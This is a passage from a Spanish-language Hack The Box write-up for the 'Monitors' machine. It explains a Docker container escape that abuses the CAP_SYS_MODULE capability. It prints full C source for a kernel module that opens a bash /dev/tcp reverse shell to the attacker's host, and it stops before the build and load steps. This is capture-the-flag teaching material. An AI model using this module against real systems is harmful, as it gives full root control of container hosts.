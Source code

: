 Dado que somos `root`, el siguiente paso sería intentar escapar de este entorno. Como ya tenemos privilegios de administrador, podemos intentar realizar un `docker breakout` para conseguir acceso a la máquina anfitriona preservando nuestro estado como `root`.

Por defecto, `Docker` asigna ciertas `capabilities` a los contenedores. Aunque el conjunto de _capabilities_ asignado es mínimo para dificultar la explotación, existen ciertas _capabilities_ que, si están presentes, pueden permitirnos escapar del contenedor. Podemos listar las _capabilities_ existentes con el comando:

```
capsh --print
```

![61](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/61.png){:class="blog-image" onclick="expandImage(this)"}

Entre las _capabilities_ encontradas en el contenedor, identificamos `CAP_DAC_OVERRIDE` y `CAP_SYS_MODULE`, ambas que podríamos intentar abusar. Con `CAP_DAC_OVERRIDE`, podríamos escribir en el sistema de archivos de la máquina anfitriona. Sin embargo, para poder hacerlo, también debe estar presente la capability `CAP_DAC_READ_SEARCH`, lo que no ocurre en este caso, por lo que esta vía de explotación no es posible. En cambio, podemos abusar de `CAP_SYS_MODULE`.

Esta _capability_ permite a los procesos cargar y descargar _módulos de kernel_, lo que nos permite inyectar código directamente en el _kernel_ del sistema. Dado que los contenedores se aíslan a nivel de sistema operativo (OS), pero comparten el _kernel_ con sistema el anfitrión, esta _capability_ nos permite interactuar con _él_ a través del contenedor. Esto nos permite comprometer completamente el sistema, alterando el _kernel_ y eludiendo todas las barreras de seguridad de Linux, incluidos los módulos de seguridad y la propia contención del contenedor.

Para aprovechar la capability `CAP_SYS_MODULE` y escapar del contenedor, vamos a escribir un módulo de _kernel_ que abrirá una _reverse shell_ hacia nuestra máquina de atacante. Este módulo será compilado mediante un _Makefile_, y luego se inyectará en el _kernel_ del sistema anfitrión para ejecutar el código.

Escribiremos un archivo `reverse-shell.c` que condentrá el código del módulo de _kernel_:

```c
#include <linux/kmod.h>
#include <linux/module.h>

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/<nuestraIP>/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
